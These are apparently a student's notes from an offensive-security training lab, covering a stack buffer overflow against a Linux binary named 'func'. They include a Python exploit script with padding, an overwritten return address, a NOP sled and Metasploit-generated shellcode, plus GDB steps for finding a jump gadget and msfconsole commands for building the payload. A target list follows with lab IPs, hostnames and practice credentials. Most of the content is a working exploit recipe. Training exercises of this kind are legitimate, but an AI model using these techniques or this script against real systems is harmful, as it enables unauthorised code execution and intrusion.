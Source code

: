 ### Run GDB against the program you want to view
#### The disass command to see what the code is performing and the memory spaces
    gdb func
    disass getuserinput                               #This was a function found in the script.
_____________________________________________________________________________________________________________________
### Create a python script to run against the program in gbd.
#### Buffer to see when the program breaks, EIP to jump to the point in memory, nop sled to push your code into executable space in memory, print to view the output as you update the script. THIS SCRIPT IS FULLY UPDATED!
    buffer = "A" * 62
    
    #eip = "BBBB"
    eip = "\x59\x3b\xde\xf7"
    
    #0xf7de3b59 "\xf7\xde\x3b\x59" "\x59\x3b\xde\xf7"
    #0xf7f588ab "\xf7\xf5\x88\xab" "\xab\x88\xf5\xf7"
    #0xf7f645fb "\xf7\xf6\x45\xfb" "\xfb\x45\xf6\xf7"
    
    nop = '\x90' * 5
    
    buf =  b""                                                            #This is gotten from the msfconsole
    buf += b"\xd9\xc6\xba\x7b\x1d\x43\x22\xd9\x74\x24\xf4\x5e"            #commands that were ran below!!!!!!
    buf += b"\x31\xc9\xb1\x0b\x83\xc6\x04\x31\x56\x15\x03\x56"
    buf += b"\x15\x99\xe8\x29\x29\x05\x8a\xfc\x4b\xdd\x81\x63"
    buf += b"\x1d\xfa\xb2\x4c\x6e\x6c\x43\xfb\xbf\x0e\x2a\x95"
    buf += b"\x36\x2d\xfe\x81\x4e\xb1\xff\x51\x26\xd9\x90\x30"
    buf += b"\xa5\x70\x6f\xe4\x66\x0b\x8e\xc7\x09"
    
    print(buffer + eip + nop + buf)
_____________________________________________________________________________________________________________________
### Open the gdb enviroment to unset the memory.
#### Use the find command to locate the memory thats vulnerable to update your script.
    env - gdb func
    show env
    unset LINES
    unset COLUMNS
    find /b 0xf7de2000 , 0xf7ffe000 , 0xff , 0xe4
_____________________________________________________________________________________________________________________
### Open gdb against the program func
#### This is for testing the script continuously as you UPDATE IT.
    gdb func
    run <<< $(python test.py)                     #The name of the script is test.py
_____________________________________________________________________________________________________________________
### Run msfconsole to get the shellcode to run the command in the script.
#### step will take several attempts of running the last command and pasting into script.
    msfconsole
    use payload/linux/x86/exec
    show options
    set CMD whoami
    show options
    generate -b "\x00" -f python                  #copy the output and place into python script may take a few tries.
_____________________________________________________________________________________________________________________
# Scheme of Maneuver:
## >Jump Box
### ->T1: 192.168.28.111
### ->T2: 192.168.28.105

## >Jump Box
### ->donovian_grey_host
#### -->T3: 192.168.150.245

#### Target Section:

## T1
### Hostname: Donovian_Webserver
#### IP: 192.168.28.111
#### OS: CentOS
#### Creds: comrade :: StudentWebExploitPassword
#### Last Known SSH Port: 2222
#### Action: Exploit binary.

## T2
### Hostname: Donovian-Terminal
#### IP: 192.168.28.105
#### OS: unknown
#### Creds: comrade :: StudentReconPassword
#### Last Known SSH Port: 2222

## T3
### Hostname: unknown
#### IP: 192.168.150.245
#### OS: unknown
#### Creds:unknown
#### Last Known SSH Port: unknown
#### PSP: Unknown
#### Malware: Unknown
#### Action: Exploit a network service on the machine
